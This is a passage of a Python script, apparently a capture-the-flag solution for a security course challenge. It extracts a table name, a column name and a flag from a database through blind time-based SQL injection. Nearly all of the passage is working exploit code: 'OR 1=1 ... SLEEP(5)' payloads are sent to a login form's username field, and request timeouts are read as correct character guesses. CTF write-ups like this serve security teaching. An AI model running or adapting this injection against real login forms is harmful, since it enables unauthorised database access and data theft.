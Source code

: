 ```Python
          cont+=1


print("\n\n\nThe table name is " + table_name + "\n\n\n")
#TBL_THE_FLAG_IS_HERE

cont = 1
#At the first place I tried with upper case but didn't work so it's necessary to have the name in lower case.
table_name = table_name.lower()

print("\n\n\nThe table name is " + table_name + "\n\n\n")
#The table name is tbl_the_flag_is_here


#The second part will discover the name of the first column in the table name using blind and time-based querys as well checking the characters of the chain 
# and if there is a timeout it's because the query was correct and server is sleeping so that's I know if the letter checked is part of the name 
#and I will add the letter to the name.

while cont < 5:  
     for i in ascii_char:
          param = {"inputName":"'OR 1=1 AND IF((SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name='"+ table_name +"' LIMIT 0,1) LIKE '"
          + column_name+i+"%',SLEEP(5), 0)#", "inputPassword":"not_needed"}
          try:     
               result = requests.post(targetUrl, param, timeout=3)
          except Timeout:
               column_name += i
               print(column_name)
               cont = 0
               break
          cont+=1

cont = 1
print("\n\n\nThe column name is " + column_name + "\n\n\n")
#The column name is FL4GF13LD


#The thir part will discover the content of the column in the table that I got previously using blind and time-based querys as well checking the characters 
#of the chain in the table name that and if there is a timeout it's because the query was correct and server is sleeping so that's I know if the letter checked is part of the name 
#and I will add the letter to the name.


while cont < 5:    
     for i in ascii_char:
          param = {"inputName":"'OR 1=1 AND IF((SELECT "+ column_name + " FROM "+ table_name +" LIMIT 1) LIKE '" + flag+i + "%',SLEEP(5), 0)#", "inputPassword":"not_needed"}
          
          try:     
               result = requests.post(targetUrl, param, timeout=4) 
          except Timeout:
               flag += i
               print(flag)
               cont = 0
               break
          cont+=1

print(flag)
#INF226{PR3TTY_70N6_P4$$W0RD_W17H_@_W31RD_CH4R537}
```